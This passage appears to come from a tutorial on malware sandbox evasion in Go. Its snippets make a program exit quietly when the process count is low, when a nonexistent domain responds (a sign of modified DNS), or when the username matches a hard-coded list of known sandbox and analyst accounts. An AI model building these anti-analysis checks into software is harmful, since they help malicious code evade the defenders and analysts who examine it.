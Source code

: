 ```go
        os.Exit(0)
      }
    }
  }
}
```

It's always a good idea to also check the total amount of processes, I don't remember the name but one malware used this technique and it didn't "turn on" if the system didn't have at least 15 processes

```go
func main(){
  ...

  if len(processes) <= 15 {
    os.Exit(0)
  }
}
```

This check is really radical as it sends an http request to a non-existing domain and if it seems to be up is because the DNS is modified.

```go
func main(){
  ...

  // Check fake domain (it doesn't exist)
  resp, err := http.Get("https://this-is-a-fake-domain.com")
  if err != nil {
    log.Fatal(err)
  }

  if resp.StatusCode == 200 {
    os.Exit(0)
  }
}
```

Here we get the username and check if match with some well known sandbox usernames (it could be done better with more usernames)

```go
func main(){
  ...

  u, err := user.Current()
  if err != nil {
    log.Fatal(err)
  }

  // Some well known sandbox users (could be much better)
  known_usernames := []string{"trans_iso_0","analysis","sandbox","debug4fun","j.yoroi","Virtual","user1","Cuckoofork","JujuBox"}
  for _, name := range known_usernames {
    if u.Username == name { // Check if any name match
      os.Exit(0)
    }
  }
}
```
